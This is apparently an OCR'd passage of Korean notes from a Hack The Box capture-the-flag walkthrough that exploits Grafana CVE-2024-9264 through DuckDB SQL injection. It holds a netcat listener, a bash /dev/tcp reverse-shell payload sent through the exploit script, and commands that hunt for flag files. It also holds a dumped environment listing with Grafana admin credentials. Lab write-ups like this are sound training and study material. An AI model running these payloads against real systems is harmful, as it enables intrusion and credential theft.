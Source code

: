 ```sql
SELECT content FROM read_blob('/tmp/grafana_cmd_output');
```

#### 취약점 발생 지점

- **read_csv()** 함수의 **파라미터 인젝션**
- 파일 경로 대신 **쉘 명령어**가 실행됨
- **파이프(|)** 연산자로 명령 체이닝 가능

## 다음 단계 권장사항

### 안정적인 쉘 획득

```bash
# 리버스 쉘 리스너 준비 (새 터미널)
nc -nvlp 4444

# 리버스 쉘 페이로드 실행
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "bash -c 'bash -i >& /dev/tcp/10.10.16.12/4444 0>&1'" http://grafana.planning.htb
```

### 플래그 수집

```bash
# 사용자 플래그 찾기
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "find / -name user.txt -type f 2>/dev/null" http://grafana.planning.htb

# 루트 플래그 찾기
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "find / -name root.txt -type f 2>/dev/null" http://grafana.planning.htb
```

이 과정을 통해 **완전한 시스템 장악**과 **지속적인 액세스**가 가능해집니다.

### ENVIRONMENTAL

[-] Environment information:
AWS*AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=0
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
*=/usr/bin/env
